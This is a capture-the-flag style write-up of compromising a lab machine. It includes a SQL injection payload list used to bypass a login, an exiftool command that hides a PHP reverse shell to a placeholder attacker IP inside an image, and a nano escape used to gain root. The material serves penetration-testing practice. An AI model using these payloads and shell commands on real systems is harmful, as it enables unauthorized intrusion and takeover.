 ﻿![Pasted image 20241007144603.png](../../IMAGES/Pasted%20image%2020241007144603.png)
# Enumeration

```ad-info
**OPEN PORTS**:
**FUZZING FOR PORT 80**:

```

The moment I went to `/gallery`, I realized it was a login page, I tried some XSS and when I sent the request, this was the output:

![Pasted image 20241007150803.png](../../IMAGES/Pasted%20image%2020241007150803.png)
Seems like this login page is vulnerable to [SQLI](../../Bug%20Bounty/Vulnerabilities/SERVER%20SIDE%20VULNERABILITIES/INJECTIONS/SQLI/SQL%20INJECTION%20(SQLI).md)
So, let's try to exploit it:

For this, I am using burp's intruder with the following payload list:

```ad-summary
'
''
`
``
,
"
""
/
//
\
\\
;
' or "
-- or # 
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
'='
'LIKE'
'=0--+
 OR 1=1
' OR 'x'='x
' AND id IS NULL; --
'''''''''''''UNION SELECT '2
%00
/*â€¦*/ 
+		
||		
%		
@variable	
@@variable	
AND 1
AND 0
AND true
AND false
1-false
1-true
1*56
-2
1' ORDER BY 1--+
1' ORDER BY 2--+
1' ORDER BY 3--+
1' ORDER BY 1,2--+
1' ORDER BY 1,2,3--+
1' GROUP BY 1,2,--+
1' GROUP BY 1,2,3--+
' GROUP BY columnnames having 1=1 --
-1' UNION SELECT 1,2,3--+
' UNION SELECT sum(columnname ) from tablename --
-1 UNION SELECT 1 INTO @,@
-1 UNION SELECT 1 INTO @,@,@
1 AND (SELECT * FROM Users) = 1	
' AND MID(VERSION(),1,1) = '5';
' and 1 in (select min(name) from sysobjects where xtype = 'U' and name > '.') --
,(select * from (select(sleep(10)))a)
%2c(select%20*%20from%20(select(sleep(10)))a)
';WAITFOR DELAY '0:0:30'--
```

Also, as seen in the request, it must be URL encoded, so, I also put this in the payload processing:

![Pasted image 20241007152753.png](../../IMAGES/Pasted%20image%2020241007152753.png)

Let's launch the attack:
![Pasted image 20241007152809.png](../../IMAGES/Pasted%20image%2020241007152809.png)

![Pasted image 20241007152818.png](../../IMAGES/Pasted%20image%2020241007152818.png)
Seems like the attack worked for that payload, if we decode it, it is this payload:

`' OR 1 -- -`

And we got in as admin:

![Pasted image 20241007153027.png](../../IMAGES/Pasted%20image%2020241007153027.png)

If we look around, we find an image upload section:

![Pasted image 20241007153644.png](../../IMAGES/Pasted%20image%2020241007153644.png)

We can refer to our [FILE UPLOAD](../../Bug%20Bounty/Vulnerabilities/SERVER%20SIDE%20VULNERABILITIES/FILE%20INCLUSION%20VULNERABILITIES/FILE%20UPLOAD.md) note, when we try to upload a file, we can only upload images, `.jpg, .png` so, let's use `exiftool` to embed a reverse shell between an image:

```ad-note
```php-template
exiftool -Comment="<?php echo shell_exec('/bin/bash -c \'bash -i >& /dev/tcp/YOUR_IP_ADDRESS/YOUR_PORT 0>&1\''); ?>" cat.jpg -o shell.php
```

As we can see, file is an jpeg now:

![Pasted image 20241007160746.png](../../IMAGES/Pasted%20image%2020241007160746.png)

Let's try to upload it now:

![Pasted image 20241007161320.png](../../IMAGES/Pasted%20image%2020241007161320.png)
![Pasted image 20241007161325.png](../../IMAGES/Pasted%20image%2020241007161325.png)
![Pasted image 20241007161334.png](../../IMAGES/Pasted%20image%2020241007161334.png)
And we got a shell!

Let's proceed with PRIVILEGE ESCALATION:

First, let's spawn a [stable shell](../../Commands/Shell%20Tricks/STABLE%20SHELL.md), once we've done this, it's time to begin with our privilege escalation:

For the privilege escalation, I used [linpeas](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS), when I looked at linpeas output, I found this:
![Pasted image 20241007163005.png](../../IMAGES/Pasted%20image%2020241007163005.png)
seems like the password for user mike, let's su to mike:

![Pasted image 20241007163600.png](../../IMAGES/Pasted%20image%2020241007163600.png)
Now we are in as mike, let's look at mike's privileges:

![Pasted image 20241007163724.png](../../IMAGES/Pasted%20image%2020241007163724.png)
We found a rootkit.sh script, let's look at it:

![Pasted image 20241007163807.png](../../IMAGES/Pasted%20image%2020241007163807.png)
As shown in the read function of the script, it uses nano, if we go to gtfobins, this is shown:
![Pasted image 20241007164109.png](../../IMAGES/Pasted%20image%2020241007164109.png)

If we execute the script as the root user, this happens:
![Pasted image 20241007165053.png](../../IMAGES/Pasted%20image%2020241007165053.png)

Let's enter the read option:
![Pasted image 20241007164217.png](../../IMAGES/Pasted%20image%2020241007164217.png)
Next, enter `ctrl+r` and `ctrl+x`, then the following command:

`reset; sh 1>&0 2>&0`

![Pasted image 20241007165137.png](../../IMAGES/Pasted%20image%2020241007165137.png)

![Pasted image 20241007165154.png](../../IMAGES/Pasted%20image%2020241007165154.png)

And just like that, we got root access!


